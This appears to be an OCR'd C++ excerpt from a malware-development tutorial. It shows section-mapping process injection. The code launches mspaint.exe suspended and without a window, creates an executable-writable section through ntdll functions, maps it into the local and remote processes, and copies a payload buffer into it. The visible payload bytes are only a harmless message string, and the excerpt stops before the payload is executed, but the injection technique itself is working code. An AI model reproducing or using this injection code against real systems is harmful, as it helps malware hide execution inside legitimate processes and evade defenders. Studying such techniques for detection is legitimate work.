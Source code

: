 ```cpp
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

int main(int argc, char* argv[]) {
  HANDLE sh; // section handle
  HANDLE th; // thread handle
  STARTUPINFOA si = {};
  PROCESS_INFORMATION pi = {};
  PROCESS_BASIC_INFORMATION pbi = {};
  OBJECT_ATTRIBUTES oa;
  SIZE_T s = 4096;
  LARGE_INTEGER sectionS = { (DWORD) s };
  PVOID rb = NULL; // remote buffer
  PVOID lb = NULL; // local buffer

  ZeroMemory(&si, sizeof(STARTUPINFO));
  ZeroMemory(&pi, sizeof(PROCESS_INFORMATION));
  ZeroMemory(&pbi, sizeof(PROCESS_BASIC_INFORMATION));
  si.cb = sizeof(STARTUPINFO);

  ZeroMemory(&oa, sizeof(OBJECT_ATTRIBUTES));

  HMODULE ntdll = GetModuleHandleA("ntdll");
  pZwCreateSection myZwCreateSection = (pZwCreateSection)(GetProcAddress(ntdll, "ZwCreateSection"));
  pNtMapViewOfSection myNtMapViewOfSection = (pNtMapViewOfSection)(GetProcAddress(ntdll, "NtMapViewOfSection"));
  pZwUnmapViewOfSection myZwUnmapViewOfSection = (pZwUnmapViewOfSection)(GetProcAddress(ntdll, "ZwUnmapViewOfSection"));
  pZwQueueApcThread myZwQueueApcThread = (pZwQueueApcThread)GetProcAddress(ntdll, "ZwQueueApcThread");
  pZwSetInformationThread myZwSetInformationThread = (pZwSetInformationThread)GetProcAddress(ntdll, "ZwSetInformationThread");
  pZwClose myZwClose = (pZwClose)GetProcAddress(ntdll, "ZwClose");

  // create process as suspended
  if (!CreateProcessA(NULL, (LPSTR) "C:\\windows\\system32\\mspaint.exe", NULL, NULL, NULL,
      CREATE_SUSPENDED | DETACHED_PROCESS | CREATE_NO_WINDOW, NULL, NULL, &si, &pi)) {
    printf("create process failed :(\n");
    return -2;
  };

  myZwCreateSection(&sh, SECTION_MAP_READ | SECTION_MAP_WRITE | SECTION_MAP_EXECUTE, NULL, &sectionS, PAGE_EXECUTE_READWRITE, SEC_COMMIT, NULL);
  printf("section handle: %p.\n", sh);

  // mapping the section into current process
  myNtMapViewOfSection(sh, GetCurrentProcess(), &lb, NULL, NULL, NULL,
      &s, 2, NULL, PAGE_EXECUTE_READWRITE);
  printf("local process mapped at address: %p.\n", lb);

  // mapping the section into remote process
  myNtMapViewOfSection(sh, pi.hProcess, &rb, NULL, NULL, NULL,
      &s, 2, NULL, PAGE_EXECUTE_READWRITE);
  printf("remote process mapped at address: %p\n", rb);

  // copy payload
  memcpy(lb, my_payload, sizeof(my_payload));

  // unmapping section from current process
  myZwUnmapViewOfSection(GetCurrentProcess(), lb);
  printf("mapped at address: %p.\n", lb);
  myZwClose(sh);
```